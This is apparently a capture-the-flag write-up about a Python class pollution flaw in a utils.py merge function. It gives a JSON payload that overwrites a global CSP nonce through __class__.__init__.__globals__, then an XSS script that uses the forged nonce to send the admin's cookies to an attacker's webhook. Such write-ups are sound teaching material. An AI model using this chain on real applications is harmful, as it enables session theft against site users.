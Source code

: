 The vulnerable python code is below (in utils.py)

```python
def processRequest(data, feedback):
    for k, v in data.items():
        if hasattr(feedback, '__getitem__'):
            if feedback.get(k) and type(v) == dict:
                processRequest(v, feedback.get(k))
            else:
                feedback[k] = v
        elif hasattr(feedback, k) and type(v) == dict:
            processRequest(v, getattr(feedback, k))
        else:
            setattr(feedback, k, v)
```

This introduces a python class pollution vulnerability. For a good read refer to https://blog.abdulrah33m.com/prototype-pollution-in-python/


Send post request to `/submit` endpoint with the following json data

```json
{
	"__class__": {
		"__init__": {
			"__globals__":{
				"SECRET_NONCE": "mysecret"
			}
		}
	}
}
```

and the nonce gets changed

Now just create a new temp chat with the admin and post the following payload

```javascript
<script nonce="mysecret">fetch("<your_webhook_url>/"+document.cookie)</script>
```

Visit your webhook url and you will see the flag